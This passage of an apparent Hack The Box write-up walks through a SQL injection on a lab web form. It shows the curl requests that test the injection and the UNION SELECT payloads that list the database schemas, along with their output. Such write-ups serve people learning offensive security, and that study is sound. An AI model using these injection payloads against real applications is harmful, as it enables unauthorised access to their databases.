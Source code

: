 ```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d 'player=pencer' 
Congratulations pencer you may compete in this tournament!<br /><br />Complete the challenge <a href="/challenge.php">here</a>  
```

If we try the box creator ippsec we get a different result:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d 'player=ippsec'
Sorry, ippsec you are not eligible due to already qualifying. 
```

If we try the simplest of SQLi techniques which is a single quotation mark:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'"    
Congratulations ippsec' you may compete in this tournament!<br /><br />Complete the challenge <a href="/challenge.php">here</a>
```

That doesn't work, but if we put a comment after:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'-- -"
Sorry, ippsec you are not eligible due to already qualifying.
```

We can see it's worked because the check against the player name entered matches ippsec, so we know the characters after that have been injected.

## Database Enumeration

With this knowledge of how to exploit it we can now start to retrieve useful data from the backend databases. Just like we did in the SQHell room we can refer to the mysql docs. Following [this](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) we can look at the schemata:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata -- -"
Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

That works and we retrieve the available databases. Let's tidy the response up using sed to display just the information we're interested in:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
mysql,information_schema,performance_schema,sys,november
```
